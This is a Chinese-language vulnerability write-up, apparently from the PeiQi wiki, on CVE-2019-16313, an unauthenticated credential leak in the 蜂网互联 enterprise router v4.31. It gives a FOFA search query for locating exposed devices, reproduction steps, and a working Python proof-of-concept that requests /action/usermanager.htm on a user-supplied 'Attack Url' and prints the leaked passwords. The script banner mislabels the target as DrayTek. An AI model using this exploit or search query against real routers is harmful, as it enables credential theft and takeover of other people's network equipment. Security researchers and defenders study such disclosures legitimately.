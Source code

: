 ```yaml
---
title: 蜂网互联 企业级路由器v4.31 密码泄露漏洞 CVE-2019-16313
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - 网络设备漏洞
 - 蜂网互联
---
```


# 蜂网互联 企业级路由器v4.31 密码泄露漏洞 CVE-2019-16313

## 漏洞描述

蜂网互联企业级路由器v4.31存在接口未授权访问，导致攻击者可以是通过此漏洞得到路由器账号密码接管路由器

## 漏洞影响

> [!NOTE]
>
> 蜂网互联企业级路由器v4.31

## FOFA

> [!NOTE]
>
> app="蜂网互联-互联企业级路由器" 

## 漏洞复现

![](/img/20210924015559207177.png)

登录页面登录后可以看到，账号密码存在接口访问

![](/img/20210924015559799842.png)

而 **/action/usermanager.htm** 存在未授权访问，可通过直接访问获得账号密码

![](/img/20210924015600137831.png)

> [!NOTE]
>
> 不存在漏洞时  state值为 3

##  漏洞利用POC

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mVersion: DrayTek企业网络设备                                        \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/action/usermanager.htm"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[32m[o] 正在请求 {}/action/usermanager.htm \033[0m".format(target_url))
        if "pwd" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 \033[0m".format(target_url))
            print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))
        else:
            print("\033[31m[x] 不存在漏洞 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)
        sys.exit(0)



if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)

```

![](/img/20210924015600375437.png)

## Goby & POC

> [!NOTE]
>
> 已上传 https://github.com/PeiQi0/PeiQi-WIKI-POC Goby & POC 目录中
>
> IFW8_Enterprise_router_Password_leakage_

![](/img/20210924015600562823.png)